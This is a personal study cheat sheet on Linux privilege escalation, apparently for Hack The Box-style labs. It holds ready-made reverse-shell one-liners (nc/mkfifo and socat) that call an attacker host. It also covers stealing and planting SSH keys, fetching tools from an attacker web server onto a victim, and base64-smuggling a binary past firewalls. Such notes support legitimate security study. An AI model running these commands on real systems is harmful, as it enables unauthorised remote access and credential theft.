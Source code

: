 # Privilege Escalation  😈

## Two Types of Priv Esc  
<blockquote>
There are two common types of privilege escalation: vertical and horizontal. Vertical privilege escalation involves a user accessing files or functions that are normally associated with accounts that have higher privileges. Horizontal privilege escalation allows users to access resources in other accounts with similar privilege levels as they have.
</blockquote>






## Linux-Smart-Enumeration
* Check out the github page right <a href="https://github.com/diego-treitos/linux-smart-enumeration">here</a>.




## Most Reliable Reverse Shell Payload  
	```console
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
	```

## Spawn a Shell When Connecting to a Reverse Shell   
	```console
	python -c 'import pty;pty.spawn("/bin/bash");'

	//or

	python3 -c 'import pty;pty.spawn("/bin/bash");'
	```

## Upgrade the Reverse Shell   

* Using Python for a psuedo terminal  
	```console
	python -c 'import pty; pty.spawn("/bin/bash")'
	``` 

* Using `socat` instead of `nc`  

	```console
	#Listener
	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim  
	socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.0.3.4:4444
	```  

* Using stty options (Never Worked With Me) 
	```console
	# In reverse shell 
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	ctrl-z  

	# In Kali 
	stty raw -echo  
	fg

	# In reverse shell
	reset
	export ShELL=bash
	export TERM=xterm-256color
	stty row <num> columns <cols>
	```

* If we type `stty -a` it will give me info and I can get the rows and columns from there.
* I can also echo the $TERM variable and put its value in the reverse shell as the value I have on my Kali.  

## Sudo & Sudoers   

* We can use `sudo` to give the current user privilege to do something as another user as follows `sudo -u [USERNAME] [COMMAND]` by default without the `-u` option it gives the user root privilege if the user was in the sudoers file, which also can't be accessed unless the user had privilege to access it.
* To check if the user have access to use sudo, especially that sometimes a user can have access to sudo a specific command and not everything, we can use this command `sudo -l` which should open the sudoers file unless we don't have privilege to do so.   
* With regard to privilege escalation we can also exploit the sudo command itself by checking if it's version have any already existing exploits. I can get the version in multiple ways and one of these ways is to when using linPEAS.



### When Using gcc  
* The option `-Wall` is a warning option.

### SSH Keys   

* We can use ssh keys to privesc  

```console
Shatha Barqawi@htb[/htb]$ vim id_rsa
Shatha Barqawi@htb[/htb]$ chmod 600 id_rsa
Shatha Barqawi@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```  

* This ssh key can be found in the following path if I have access to it `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`.

<blockquote>
Note that we used the command 'chmod 600 id_rsa' on the key after we created it on our machine to change the file's permissions to be more restrictive. If ssh keys have lax permissions, i.e., maybe read by other people, the ssh server would prevent them from working.
</blockquote>   

* We can also put our public key in the directory `/home/user/.ssh/authorized_keys` if we have the permissions to do so. How to do that?  

* Create key on my machine 
	```console
	Shatha Barqawi@htb[/htb]$ ssh-keygen -f key
	```
* This will create two file `key` (which we will use with `ssh -i`) and `key.pub`(which we will copy to the remote machine).

### Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

	```console
	scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
	```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  


### The Shells on Victims   
* We can find the shells that can be used on the victim's machine with the following command in the following file   `cat /etc/shells`.

### The `tee` Command

* Store the output of a command in a file with the following command `[COMMAND] | tee [FILE NAME]`.   

### The `dpkg -l`  Command   
* Shows the packages and libraries on the system.
* Is it exclusively used on Debian based Linux? Seems so -- not sure tho.🤔

* Write about the $PATH variable how to add to it.
```console
export PATH=$PATH:/tmp
#or
export PATH=/tmp:$PATH
```

____ 
I have to write more about this 
* SUID (Set owner User ID)

